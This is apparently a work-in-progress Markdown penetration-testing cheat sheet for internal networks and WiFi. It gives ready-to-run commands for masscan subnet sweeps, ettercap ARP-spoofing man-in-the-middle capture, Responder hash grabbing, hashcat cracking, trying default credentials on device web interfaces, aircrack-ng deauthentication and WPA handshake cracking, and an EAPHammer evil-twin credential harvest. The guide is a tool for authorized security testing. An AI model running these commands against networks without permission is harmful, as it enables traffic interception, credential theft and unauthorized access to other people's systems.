WIP

## Segmentation
Scan the top ports in several subnets at once, write output to a file with `tee`:
```bash
masscan -p 20,21-23,25,53,80,110-111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 10.1.2.0/24 10.1.3.0/24 | tee -a scan_from_subnet.txt
```

## Network Layer security
When connected to the network you can perform a classic Man-in-the-middle attack (ARP spoofing): 
```bash
sudo ettercap -T -M arp:remote /10.1.4.1-220// /10.1.31.1// -w capture_file_name.pcap
```
In this example, we ARP spoof the clients on IP range 10.1.4.1-220 and the default gateway 10.1.31.1. This allows us to capture all network traffic between the hosts and the default gateway.
The captured traffic can be analyzed for interesting information. 

Next step can be to grab credentials/hashes with responder:

```bash
sudo responder -I eth0 -b -w
```

If you obtained hashes you can crack it with several approaches in hashcat:
__Mask__
The following command will run a mask attack:
```bash
hashcat -m 5600 -a 3 --opencl-device-types 1 hash.txt -1 '?l?d' -2 '?l?u' '?u?l?l?l?1?1?1?1' # Change 5600 to the hashcat type number.
```
_Ommit `--opencl-device-types 1` on Linux or Windows._

View the mask identifiers [Hashcat Identifiers](https://hashcat.net/wiki/doku.php?id=mask_attack#custom_charsets). 

__Custom crafted wordlist__
[Mentalist](https://github.com/sc0tfree/mentalist) is a great tool to create visually custom wordlists. 

![Mentalist_config](https://user-images.githubusercontent.com/9286611/141745990-642b15a6-0f63-4f32-9de1-f2cd79e4a50d.png)
See config file: _guides/files/mentalist_chain.mentalist_

You can then run hashcat with:
```bash
hashcat -m 5600 -a 0 --opencl-device-types 1 hash.txt /Users/vincentcox/custom_mentalist.list # On Mac. Change 5600 to the hashcat type number.
```
_Ommit `--opencl-device-types 1` on Linux or Windows._

__Free Online Cracking__
In addition to the cracking methods mentioned above, it's worth a shot to use https://www.onlinehashcrack.com/ in parallel (which is free to use). 

## Web Interfaces - Default Credentials
Runs eyewitness with input a Nessus file, saves output to folder:
```bash
eyewitness -x Nessus_Scan.nessus -d directory_name
```

You'll find many devices with web interfaces. Many devices have default credentials. In most cases the vendor name and model/software version is listed in the web page. Just use google to find default credentials for it and try some out. In many cases you'll get even into the core network devices of the network with this approach...

![default credentials](https://user-images.githubusercontent.com/9286611/141475684-0efda993-448d-4d88-a426-170b50289cf2.png)


# WiFi
## WEP and WPA2
Use Wifite(2).

Or:
Begin by placing your wireless card into monitor mode on the channel number of the AP:
```bash
airmon-ng start <interface> <AP channel>
Start an Airodump capture, filtering on the AP channel and BSSID, saving the capture to disk:
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
In a new window (keep the previous one running), deauthenticate a connected client to force it to complete the 4-way handshake:
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```
Wait untill you see that it gathered a WPA handshake:
![image](https://user-images.githubusercontent.com/9286611/141474787-1882f975-2b9c-4966-89f6-66fa223f9a78.png)

```bash
Crack the WPA password with Aircrack-ng:
aircrack-ng -w <wordlist> <capture>
Alternatively, if you have and Airolib-ng database, it can be passed to Aircrack:
aircrack-ng -r <db name> <capture>
```

In addition to the cracking methods mentioned above, it's worth a shot to use https://www.onlinehashcrack.com/ in parallel (which is free to use). 


## WPA-Enterprise
Using [EAPHammer](https://github.com/s0lst1c3/eaphammer) to create _evil twin_ attack.
```bash
sudo python3 eaphammer --essid "Name-Wifi_network" --interface wlan0 --creds
```
__Note: most networks use (a combination of 2.4 and) 5 Ghz these days, so "the good old Alfa adapter" won't work in some cases. No clients will connect in that case__

